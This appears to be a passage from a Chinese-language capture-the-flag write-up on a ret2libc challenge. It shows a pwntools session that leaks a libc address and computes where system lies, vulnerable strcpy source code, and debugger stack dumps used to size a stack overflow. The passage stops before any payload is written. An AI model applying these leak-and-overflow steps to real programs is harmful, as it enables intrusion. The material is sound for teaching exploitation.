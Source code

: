 ```python
																																 puts@got即puts的真实值 
<stdin>:1: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
>>> io.recv()
b'Do you know return to library ?\n###############################\nWhat do you want to see in memory?\nGive me an address (in dec) :'
>>> io.recv()
b'The content of the address : 0xf7e2b140\nLeave some message for me :'   <----- 显性内存泄漏
>>> hex(149504)
'0x24800'
>>> 0xf7e2b140-0x24800
4158679360            
>>> hex(4158679360)
'0xf7e06940'                  <----------- 算出无ASLR情况下system函数在进程空间中的地址
```

写payload

注意到`Print_message(src)`的源码为

```C
char src[256];
...
read(0, src, 0x100u); <--- 构造payload
Print_message(src);   <--- 发生溢出
--------------------------------------------------
int __cdecl Print_message(char *src) {
  char dest[56]; // [esp+10h] [ebp-38h] BYREF
  strcpy(dest, src);
  return printf("Your message is : %s", dest);
}
```

`strcpy`会造成溢出，因此可以利用此处的栈溢出，考虑查看**子栈帧**的`ebp`和`dest`的距离

```C
 ► 0x8048563 <Print_message+19>    call   strcpy@plt                     <strcpy@plt>
        dest: 0xffffcc60 —▸ 0xf7e855e7 (_IO_file_sync+7) ◂— 0x8a19c681
        src: 0xffffccb2 ◂— 0x41414141 ('AAAA')
```

先看到执行`strcpy`之前的栈帧布局，需要关注的是dest,查看调用`strcpy`前夕的`stack`内容

```C
04:0010│ eax 0xffffcc60 —▸ 0xf7e855e7 (_IO_file_sync+7) ◂— add    esi, 0x148a19
05:0014│     0xffffcc64 —▸ 0xf7fce000 ◂— 0x1afdb0
06:0018│     0xffffcc68 —▸ 0xf7fced60 (_IO_2_1_stdout_) ◂— 0xfbad2a84
07:001c│     0xffffcc6c —▸ 0xf7e7b39f (fflush+111) ◂— xor    edx, edx
08:0020│     0xffffcc70 —▸ 0xf7fced60 (_IO_2_1_stdout_) ◂— 0xfbad2a84
09:0024│     0xffffcc74 —▸ 0xf7fce000 ◂— 0x1afdb0
0a:0028│     0xffffcc78 —▸ 0xffffcdc8 ◂— 0x0
0b:002c│     0xffffcc7c —▸ 0xf7e67046 (printf+38) ◂— add    esp, 0x1c
0c:0030│     0xffffcc80 —▸ 0xf7fced60 (_IO_2_1_stdout_) ◂— 0xfbad2a84
0d:0034│     0xffffcc84 —▸ 0x80487b9 ◂— dec    esp /* 'Leave some message for me :' */
0e:0038│     0xffffcc88 —▸ 0xffffcdc8 ◂— 0x0
0f:003c│     0xffffcc8c ◂— 0x100
10:0040│     0xffffcc90 —▸ 0xffffccb2 ◂— 0x41414141 ('AAAA')
11:0044│     0xffffcc94 —▸ 0xf7ef2373 (read+35) ◂— pop    ebx
12:0048│ ebp 0xffffcc98 —▸ 0xffffcdc8 ◂— 0x0
```
